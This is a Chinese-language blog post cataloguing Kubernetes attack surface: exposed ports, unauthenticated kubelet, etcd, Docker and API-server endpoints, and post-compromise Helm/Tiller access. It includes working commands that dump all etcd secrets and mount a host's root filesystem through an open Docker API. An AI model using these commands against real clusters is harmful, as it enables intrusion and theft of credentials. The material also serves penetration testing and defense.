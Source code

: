 ```yaml
---
title: K8S攻击面梳理
author: 404tk
date: 2021-10-24
category: 云原生安全
layout: post
---
```


### 1. 如何识别K8S

通过一些常见的开放服务端口，可以判断是否跑了K8S服务，端口列表如下：

#### Control-plane Node(s)

|    Port    |      Purpose       |            Note            |
| :--------: | :----------------: | :------------------------: |
|  443/TCP   |  Kube API Server   |    Kubernetes API Port     |
|  6443/TCP  |  Kube API Server   |    Kubernetes API Port     |
|  8443/TCP  |  Kube API Server   |     Minikube API Port      |
|  8080/TCP  |  Kube API Server   |   Insecure K8s API Port    |
|  2379/TCP  | etcd Client Server |        etcd Storage        |
|  2380/TCP  | etcd Client Server |        etcd Storage        |
|  6666/TCP  | etcd Client Server |        etcd Storage        |
|  4194/TCP  |      cAdvisor      |     Container Matrics      |
| 10250/TCP  |    Kubelet API     |                            |
| 10251/TCP  |   Kube-scheduler   |                            |
| 10252/TCP  | controller-manager |                            |
|  9099/TCP  |    Calico-felix    | Health check Calico server |
| 6782-4/TCP |       Weave        |   Metrics and endpoints    |

#### Worker Node(s)

|      Port       |     Purpose      | Note |
| :-------------: | :--------------: | :--: |
|      10250      |   Kubelet API    |      |
| 30000-32767/TCP | NodePort Service |      |

### 2. 外部视角如何攻击K8S

#### Kubelet未授权
`10250/tcp - kubelet (kubelet exploit)` 
验证未授权，可以尝试访问以下路径：
```
/pods
/runningpods
/containerLogs
```

其次是默认10255端口，只读权限：
`10255/tcp - kubelet port (read-only)`
尝试通过以下路径获取信息：
```
/stats
/metrics
/pods
```

#### etcd未授权
`2379/tcp - etcd (see it on other ports though)`  
可通过以下路径判断未授权：
```
/version
/v2/keys
```
Etcd存放了大量敏感配置信息，从 [https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/) 下载得到`etcdctl`。
```
ETCDCTL_API=3 ./etcdctl --endpoints=http://IP:2379/ get / --prefix --keys-only | sort | uniq | xargs -I{} sh -c 'ETCDCTL_API=3 ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=http://IP:2379 get {} >> output.data && echo "" >> output.data'
```

#### Docker Remote API未授权
`2375/tcp docker`
通过访问`/info`路径查看响应中是否含有关键词:`"kind": "APIResourceList"`。
```
docker -H tcp://IP:2375 ps
docker -H tcp://IP:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

#### Docker Registry v2 API未授权
`8080/tcp Docker Registry (API: 2.0)`
可通过访问`/v2/_catalog`路径判断未授权。  

#### Kubernetes API Server未授权
`443/6443 - Kube API Server`  
通过访问`/api/v1`路径查看响应中是否含有`ContainersRunning`、`DockerRootDir`等关键词。
```
/api
/api/v1
/apis
/apis/
/apis/apps
/apis/apps/v1
/apis/autoscaling
/apis/autoscaling/v1
/apis/batch
/apis/batch/v1
...
```

#### cAdvisor未授权
`4194/tcp - cAdvisor`
尝试访问`/api/v2.0/spec?recursive=true`以JSON格式输出在主机上运行的所有容器的规范。

#### 攻击dashboard
`30000 - dashboard`
默认情况下, dashboard是需要进行鉴权操作的,当用户开启了`enable-skip-login`时可以在登录界面点击`Skip`跳过登录进入dashboard。

### 3. 如何利用正在运行的Pod
获取`shell`后，很容易确认这是个在`Kubernetes`上运行的容器：
```
ls -l /.dockerenv
env | grep -i kube
```

#### 攻击Helm
`44134/tcp - Helmtiller, weave, calico`  
`Helm`与`Kubernetes`集群通信的方式是通过`gRPC`到`Tiller-deploy pod`。
然后 pod 使用其服务帐户令牌与 Kubernetes API 对话。
当Helm从客户端运行命令时，在后台会打开一个端口转发到集群中以直接与`Tiller-deploy`服务对话，该服务始终指向`44134/TCP`上的`Tiller-deploy pod`。
```
export HVER=v2.11.0
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${HVER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C /tmp linux-amd64/helm
/tmp/helm --host tiller-deploy.kube-system.svc.cluster.local:44134 ls
```

